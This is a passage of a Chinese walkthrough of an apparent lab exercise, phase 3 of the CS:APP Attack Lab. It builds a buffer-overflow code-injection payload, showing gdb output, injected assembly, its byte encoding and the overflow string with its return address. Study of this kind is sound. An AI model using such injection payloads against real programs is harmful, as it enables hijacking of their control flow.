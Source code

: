```bash
   0x0000000000401987 <+31>:    call   0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:    add    $0x8,%rsp
   0x0000000000401990 <+40>:    ret
End of assembler dump.
(gdb) p/x $rsp
$1 = 0x5561dca8
```

因此栈帧在`0x5561dca8`。将其作为字符串首地址，编写`p3.s`：

```asm
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

利用附录B的字节表示生成工具：

```bash
gcc -c p3.s
objdump -d p3.o > p3.d
```

得到字节表示：

```bash
p3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	push   $0x4018fa
   c:	c3                   	ret    
```

我们就得到了字节序列：

```bash
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3
```

还是放到缓冲区的前40个字节。接着找到`getbuf()`栈顶的地址为`0x5561dc78`，作为40个字节之后的内容。

```bash
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

可是我们字符串首地址`0x5561dca8`距离`getbuf()`的栈帧有多远？这决定了我们应该在注入字符串的何处放置我们的字符串。经过计算，`0x5561dca8 - 0x5561dc78 = 0x30`，正好是48个字节，也就是说，从49-56个字节处，我们就可以放置我们的字符串，这样我们编写的汇编代码就能顺利跳转到字符串的首地址。于是我们可以写出序列到`p3.txt`：
